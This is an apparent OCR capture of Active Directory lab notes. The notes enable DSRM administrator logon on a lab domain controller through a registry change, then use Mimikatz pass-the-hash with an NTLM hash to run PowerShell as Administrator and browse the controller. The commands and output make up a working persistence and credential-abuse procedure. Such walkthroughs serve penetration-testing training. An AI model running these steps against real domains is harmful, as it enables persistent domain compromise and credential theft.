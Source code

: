 ```
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

PS C:\AD\Tools> Enter-PSSession -ComputerName dcorp-dc
[dcorp-dc]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

DsrmAdminLogonBehavior : 2
PSPath                 : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\
PSParentPath           : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control
PSChildName            : Lsa
PSDrive                : HKLM
PSProvider             : Microsoft.PowerShell.Core\Registry

```

* PowerShell Window (Non-DA)

```
PS C:\AD\Tools> Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::pth /domain:dcorp-dc.dollarcorp.moneycorp.local /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe
user    : Administrator
domain  : dcorp-dc.dollarcorp.moneycorp.local
program : powershell.exe
impers. : no
NTLM    : a102ad5753f4c441e3af31c97fad86fd
  |  PID  5100
  |  TID  3100
  |  LSA Process is now R/W
  |  LUID 0 ; 22290584 (00000000:01542098)
  \_ msv1_0   - data copy @ 0000024868A50110 : OK !
  \_ kerberos - data copy @ 000002486869C4E8
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 00000248693137A8 (32) -> null

```


[dcorp-std503]: PS C:\Users\student503\Documents> exit
[dcorp-dc]: PS C:\Users\student503\Documents> whoami;hostname
[dcorp-dc]: PS C:\Users\student503\Documents> ls c:\
[dcorp-dc]: PS C:\Users\student503\Documents>
[dcorp-dc]: PS C:\Users\student503\Documents> ls C:\Users\Administrator\
[dcorp-dc]: PS C:\Users\student503\Documents> exit